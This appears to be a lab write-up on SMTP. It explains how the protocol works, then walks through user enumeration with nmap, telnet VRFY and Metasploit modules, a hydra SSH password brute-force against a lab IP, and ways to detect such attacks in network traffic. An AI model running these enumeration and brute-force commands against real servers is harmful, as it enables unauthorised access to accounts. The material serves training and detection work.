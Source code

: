


![Pasted image 20241003085910](https://github.com/user-attachments/assets/12630579-a0bf-4a4b-93c4-9e5b9cc7fa23)


SMTP stands for "Simple Mail Transfer Protocol". It is utilised to handle the sending of emails. In order to support email services, a protocol pair is required, comprising of SMTP and POP/IMAP. Together they allow the user to send outgoing mail and retrieve incoming mail, respectively.

The SMTP server performs three basic functions:

     It verifies who is sending emails through the SMTP server.
     It sends the outgoing mail
     If the outgoing mail can't be delivered it sends the message back to the sender



We can map the journey of an email from your computer to the recipient’s like this:


1. The mail user agent, which is either your email client or an external program. connects to the SMTP server of your domain, e.g. smtp.google.com. This initiates the SMTP handshake. This connection works over the SMTP port- which is usually 25. Once these connections have been made and validated, the SMTP session starts.


![Pasted image 20241003090610](https://github.com/user-attachments/assets/8309fba5-8b70-4747-9589-719cd4a3c934)


3. The process of sending mail can now begin. The client first submits the sender, and recipient's email address- the body of the email and any attachments, to the server.

4. The SMTP server then checks whether the domain name of the recipient and the sender is the same.

5. The SMTP server of the sender will make a connection to the recipient's SMTP server before relaying the email. If the recipient's server can't be accessed, or is not available- the Email gets put into an SMTP queue.

6. Then, the recipient's SMTP server will verify the incoming email. It does this by checking if the domain and user name have been recognised. The server will then forward the email to the POP or IMAP server, as shown in the diagram above.

7. The E-Mail will then show up in the recipient's inbox.


### Enumerating SMTP:



Nmap:

nmap -sV -sC 10.10.246.91 -nnvvv


![Pasted image 20241003092220](https://github.com/user-attachments/assets/3fc3e53b-268e-4b5b-91ea-76d3cccf73d0)


nmap --script smtp* -p 25 10.10.246.91 -nnvvv 


![Pasted image 20241003093718](https://github.com/user-attachments/assets/eaf98569-4000-4f77-9362-9e3b01f4dc3d)




![Pasted image 20241003093831](https://github.com/user-attachments/assets/83a0a6b4-ef49-418e-b832-fd192341d2f1)


PORT   STATE SERVICE REASON         VERSION
25/tcp open  smtp  Postfix smtpd
 commonName=polosmtp




### Enumerating with Telnet:


The simplest techniques to query the SMTP server is telnet with VRFY, EXPN and RCPT TO commands, those commands will answer if the username entered exist or not, 252 code if the user exists, 550 code if the user is unknown.



![Pasted image 20241003093336](https://github.com/user-attachments/assets/0694813a-c3a7-48c1-8f9a-285d1179e49b)


# Network traffic:


![Pasted image 20241003093435](https://github.com/user-attachments/assets/d5ad241d-29c9-41a7-9ee5-3237c0a63d37)



![Pasted image 20241003094343](https://github.com/user-attachments/assets/2bdac4b0-dcc5-4fcc-a1d4-86ff6b0b8e71)


# Detecting smtp enumeration:

Filters:

 smtp.req.parameter
 smtp.req.parameter
 

![Pasted image 20241003103244](https://github.com/user-attachments/assets/dfd9b2e5-2f94-4763-962b-7fe4cd7e5e10)

SMTP codes link to world, codes message "root" are anomalies or indicator of foot printing
 

![Pasted image 20241003094518](https://github.com/user-attachments/assets/c991c19c-1c62-40b8-ac68-af28f44e239c)





# METASPLOIT:


![Pasted image 20241003091852](https://github.com/user-attachments/assets/24aa3ab5-80eb-42a7-8570-8475cd523df6)


Using scanner SMTP Auxiliary Modules:



![Pasted image 20241003095321](https://github.com/user-attachments/assets/bb82bc66-210f-41bb-aa9d-ec18a8fd6bd7)



# smtp_version:

Poorly configured or vulnerable mail servers can often provide an initial foothold into a network but prior to launching an attack, we want to fingerprint the server to make our targeting as precise as possible. The smtp_version module, as its name implies, will scan a range of IP addresses and determine the version of any mail servers it encounters.

search smtp_version


![Pasted image 20241003100626](https://github.com/user-attachments/assets/8166119d-54d9-47dd-952d-adb9a193d756)

use auxiliary/scanner/smtp/smtp_version

show options
 set RHOSTS 10.10.246.91
  set THREADS 254
   run
# smtp_enum

The SMTP Enumeration module will connect to a given mail server and use a wordlist to enumerate users that are present on the remote system.

search smtp_enum


![Pasted image 20241003095709](https://github.com/user-attachments/assets/6e5698fd-9ad1-4871-a4b8-98ba3383909c)


use auxiliary/scanner/smtp/smtp_enum
show options
set RHOSTS 10.10.246.91
 run


![Pasted image 20241003101932](https://github.com/user-attachments/assets/4f6fea0c-4014-4042-aafc-00460dea8627)


### Password list:
```
 _apt, administrator, backup, bin, daemon, dnsmasq, games, 
 gnats, irc, landscape, list, lp, lxd, mail, man, messagebus, 
 news, nobody, pollinate, postfix, postmaster, proxy, sshd, sync, 
 sys, syslog, systemd-network, systemd-resolve, systemd-timesync, 
 uucp, uuidd, www-data
```


### Using a world list:

set USER_FILE /usr/share/wordlists/SecLists/Usernames 

 At the end of our Enumeration section we have a few vital pieces of information:

A user account name :  

administrator

The type of SMTP server and Operating System running:  

polosmtp.home; OS: Linux; CPE: cpe:/o:linux:linux_kernel


### Exploiting SMTP:

# Hydra:



![Pasted image 20241003103939](https://github.com/user-attachments/assets/bcf3a888-263e-4458-b78e-cc5c3314c47f)


User list:


![Pasted image 20241003105302](https://github.com/user-attachments/assets/ef1880ca-05f0-406b-bf8a-82727dba0465)



# SSH  password attack:


31 users on my list against 14344391 passwords


```
hydra -t 16 -L users.txt -P /usr/share/wordlists/rockyou.txt -vV 10.10.246.91  ssh
```



![Pasted image 20241003105819](https://github.com/user-attachments/assets/6a0a0c37-9aa5-41bb-bb88-4a4bf5c4c202)



![Pasted image 20241003111546](https://github.com/user-attachments/assets/36c2cb35-8279-4e3b-95d8-870edb615094)


### Login into the smtp server:

ssh admistrator@10.10.246.91


![Pasted image 20241003113140](https://github.com/user-attachments/assets/72e2f246-e283-45e0-a570-68963c4f2c30)

# Detecting SSH password attacks, protocol anomalies :



### ERROR_SSH_KEY_EXCHANGE_FAILED
code: 103 (0x0067)
Key exchange failed



![Pasted image 20241003110641](https://github.com/user-attachments/assets/70e55576-740b-4241-9319-5efcc04bcc3f)


## ERROR_SSH_AUTHENTICATION_FAILED
code :10 (0x000A)
Authentication failed. There could be wrong password or something else


![Pasted image 20241003110612](https://github.com/user-attachments/assets/073c816b-9906-49b1-97af-2c0ae2320cfa)



## ERROR_SSH_HOST_NOT_ALLOWED_TO_CONNECT
code :101 (0x0065)
Connection was rejected by remote host

Many connection with short duration can indicate  anomalies on the SSH server:



![Pasted image 20241003110347](https://github.com/user-attachments/assets/bc73fc40-c769-4121-9211-2c7af6347ee3)
